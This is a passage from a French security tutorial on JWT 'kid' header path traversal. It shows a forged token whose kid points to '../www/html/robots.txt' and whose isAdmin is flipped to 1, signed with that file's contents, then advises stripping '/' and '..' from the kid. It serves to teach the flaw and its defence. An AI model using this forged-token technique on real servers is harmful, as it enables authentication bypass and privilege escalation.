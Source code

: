 ##### Cas 1:

Imaginons que le KID serve à indiquer le chemin vers le fichier contenant la clé de chiffrement :

Header

```json
{
	"alg" : "HS256",
	"typ" : "JWT",
	"kid" : "secret.key"
}
```

Payload

```json
{
	"username" : "h4xor",
	"isAdmin" : 0
}
```

Un pirate peut modifier le KID de son jeton pour pointer vers un fichier du serveur auquel il a accès, par exemple le fichier `robots.txt` de l'appli :

Header

<div class="language-json highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{</span><span class="w">
	</span><span class="nl">"alg"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="s2">"HS256"</span><span class="p">,</span><span class="w">
	</span><span class="nl">"typ"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="s2">"JWT"</span><span class="p">,</span><span class="w">
	</span><span class="nl">"kid"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="s2"><strike>"secret.key"</strike></span><span class="w"> </span><span class="s2">"../www/html/robots.txt"</span><span class="w">
</span><span class="p">}</span><span class="w">
</span></code></pre></div></div>

Payload

<div class="language-json highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{</span><span class="w">
	</span><span class="nl">"username"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="s2">"h4xor"</span><span class="p">,</span><span class="w">
	</span><span class="nl">"isAdmin"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="mi"><strike>0</strike></span><span class="w"> </span><span class="mi">1</span><span class="w">
</span><span class="p">}</span><span class="w">
</span></code></pre></div></div>

Il lui suffit ensuite de signer son faux jeton avec le contenu du fichier `robots.txt`, puis de le soumettre au serveur !

Pour se protéger contre cette attaque : il faut filtrer le KID des attaque de type Directory Traversal, en lui retirant les `/` et les `..` par exemple.
